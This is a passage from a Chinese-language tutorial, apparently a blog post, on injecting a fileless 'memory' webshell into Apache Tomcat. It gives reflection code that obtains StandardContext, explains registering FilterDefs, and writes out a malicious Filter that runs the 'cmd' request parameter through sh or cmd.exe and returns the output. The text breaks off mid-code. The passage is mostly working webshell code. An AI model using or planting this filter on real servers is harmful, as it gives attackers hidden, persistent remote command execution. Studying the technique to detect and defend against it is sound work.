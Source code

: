 > 表达式((RequestFacade)servletRequest).request.getSession().getServletContext()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221227163112042.png)

因此调两次反射就能拿到StandardContext

```jsp
<%
    Field appContextField = ApplicationContextFacade.class.getDeclaredField("context");
    appContextField.setAccessible(true);
    Field standardContextField = ApplicationContext.class.getDeclaredField("context");
    standardContextField.setAccessible(true);

    ServletContext servletContext = request.getSession().getServletContext();
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

%>

```

不过servlet环境的request实际上为RequestFacade对象，它的request属性存储了Request对象，Request对象的getContext能直接拿到Context

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221227162536522.png)

```java
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);
    Request request1 = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) request1.getContext();

```

###  2.添加FilterDefs

FilterDef提供了setFilter来修改filter

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221227205553231.png)

然后用StandardContext#addFilterDef()来添加FilterDefs

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221227205817618.png)



生成恶意filter:接收cmd作为参数，System.getProperty(os.name)获取系统变量，用来判定系统为Linux or windows。然后调用Runtime#exec()进行命令执行。

```java
Filter filter = new Filter() {
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
        if (request.getParameter("cmd") != null) {
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\A");
            String output = s.hasNext() ? s.next() : "";
            response.getWriter().write(output);
            response.getWriter().flush();
```